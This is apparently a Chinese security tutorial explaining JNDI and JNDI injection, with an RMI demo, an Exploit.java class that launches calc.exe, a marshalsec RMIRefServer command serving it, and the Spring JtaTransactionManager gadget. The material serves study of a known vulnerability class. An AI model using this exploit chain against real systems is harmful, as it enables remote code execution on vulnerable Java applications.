










## 基本概念

JNDI(Java Naming and Directory Interface),名为 Java命名和目录接口，JNDI是Java API，允许客户端通过名称发现和查找数据、对象。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。放两张直观的图



从图中可以看出，JNDI相当于是更进一步的封装

JNDI自身并不区分客户端和服务器端，也不具备远程能力，但是被其协同的一些其他应用一般都具备远程能力，JNDI在客户端和服务器端都能够进行一些工作，客户端上主要是进行各种访问，查询，搜索，而服务器端主要进行的是帮助管理配置，也就是各种bind。比如在RMI服务器端上可以不直接使用Registry进行bind，而使用JNDI统一管理，当然JNDI底层应该还是调用的Registry的bind，但好处JNDI提供的是统一的配置接口；在客户端也可以直接通过类似URL的形式来访问目标服务，

## 示例

```java
/**
 * @description:
 * @author: Pxy
 * @create: 2020-03-22 16:34
 **/
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.spi.NamingManager;
public class test {
    public static void initPerson() throws Exception{
        //配置JNDI工厂和JNDI的url和端口。如果没有配置这些信息，会出现NoInitialContextException异常
        LocateRegistry.createRegistry(3001);
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:3001");
        ////初始化
        InitialContext ctx = new InitialContext();
        //实例化person对象
        Person p = new Person();
        p.setName("pxy");
        p.setPassword("12345");
        //person对象绑定到JNDI服务中，JNDI的名字叫做：person，即我们可以通过person键值，来对Person对象进行索引
        ctx.bind("person", p);
        ctx.close();

    }
    public static void findPerson() throws Exception{

        //因为前面已经将JNDI工厂和JNDI的url和端口已经添加到System对象中，这里就不用在绑定了
        InitialContext ctx = new InitialContext();
        //通过lookup查找person对象
        Person person = (Person) ctx.lookup("person");
        System.out.println(person.toString());

//        ctx.lookup("rmi://127.0.0.1:1099/Exploit");
        ctx.close();
    }
    public static void main(String[] args) throws Exception {
        initPerson();
        findPerson();
    }
}
```

首先生成一个工厂，然后将对象绑定上，再去访问



## JNDI协议动态转换

上面的Demo里面，在初始化就预先指定了其上下文环境(RMI),但是在调用 lookup() 时，是可以使用带 URI 动态的转换上下文环境，例如上面已经设置了当前上下文会访问 RMI 服务，那么可以直接使用 RMi的 URI 格式去**转换**(该变)上下文环境，使之访问 RMI 服务上的绑定对象：

```java
Person person = (Person) ctx.lookup("rmi://localhost:3001/person");
```

## JNDI注入

那么如果 `lookup` 的参数可控呢？

比如将其改为

```
ctx.lookup("rmi://127.0.0.1:1099/Exploit");
```

Exploit.java

```java
/**
 * @description:
 * @author: Pxy
 * @create: 2020-03-22 16:37
 **/
public class Exploit {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc.exe"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译好之后，放到一个web目录下



然后开启RMI服务

```
java.exe -cp .\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8002/#Exploit 1099
```


运行即可弹出计算器





> 在调试的时候遇到了一个问题，java版本不兼容，由于我电脑上存在java7和java8，会报错
> 
> 
> 
> [https://stackoverflow.com/questions/22489398/unsupported-major-minor-version-52-0](https://stackoverflow.com/questions/22489398/unsupported-major-minor-version-52-0)

## spring JNDI注入

利用链：

`JtaTransactionManager`



跟进 `initUserTransactionAndTransactionManager`



继续跟进 `lookupUserTransaction` 方法



可以看到调用了lookup,而且我们可以看到整个调用链只要我们可控`userTransactionName`就可以,



调用链比较简单，最后控制属性即可

```java
org.springframework.transaction.jta.JtaTransactionManager object = new org.springframework.transaction.jta.JtaTransactionManager();
object.setUserTransactionName(jndiAddress);
```
